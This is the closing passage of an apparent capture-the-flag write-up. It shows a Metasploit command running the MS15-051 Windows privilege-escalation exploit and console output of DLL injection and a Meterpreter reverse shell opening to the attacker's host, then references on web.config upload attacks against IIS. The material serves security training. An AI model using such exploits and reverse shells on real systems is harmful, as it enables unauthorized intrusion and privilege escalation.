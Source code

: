 
All that is left to do is run it:
```
msf exploit(windows/local/ms15_051_client_copy_image) > run
```

```
[*] Started reverse TCP handler on 10.10.14.38:38592 
[*] Launching notepad to host the exploit...
[+] Process 2072 launched.
[*] Reflectively injecting the exploit DLL into 2072...
[*] Injecting exploit into 2072...
[*] Exploit injected. Injecting payload into 2072...
[*] Payload injected. Executing exploit...
[*] Sending stage (206403 bytes) to 10.10.10.93
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 8 opened (10.10.14.38:38592 -> 10.10.10.93:49203) at 2018-08-12 20:51:41 -0400
```
After a bit of poking around, we find the root flag:
![root flag](screenshots/root_flag.png)

## References
[1]: https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/the-configuration-system-in-iis-7 "The Configuration System in IIS 7"
[2]: https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/ "RCE by uploading a web.config - 003Random's Blog"
[3]: https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/ "Upload a web.config File for Fun & Profit - Soroush Dalili"
[4]: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/ "Handlers <handlers> | Microsoft Docs"
[5]: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/add "Adding Handlers <add> | Microsoft Docs"
[6]: https://msdn.microsoft.com/en-us/library/2wawkw1c(v=vs.100).aspx#Anchor_1 "Web Site File Types - MSDN"
[7]: https://stackoverflow.com/questions/10496675/download-files-from-url-using-classic-asp "StackOverflow - Download Files From URL Using Classic ASP"

  * [<sup>1</sup> The Configuration System in IIS 7](https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/the-configuration-system-in-iis-7)
  * [<sup>2</sup> RCE by uploading a web.config - 003Random's Blog](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/)
  * [<sup>3</sup> Upload a web.config File for Fun & Profit - Soroush Dalili](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
  * [<sup>4</sup> Handlers <handlers> | Microsoft Docs](https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/)
  * [<sup>5</sup> Adding Handlers <add> | Microsoft Docs](https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/add)
  * [<sup>6</sup> Web Site File Types - MSDN](https://msdn.microsoft.com/en-us/library/2wawkw1c(v=vs.100).aspx#Anchor_1)
  * [<sup>7</sup> StackOverflow - Download Files From URL Using Classic ASP](https://stackoverflow.com/questions/10496675/download-files-from-url-using-classic-asp)
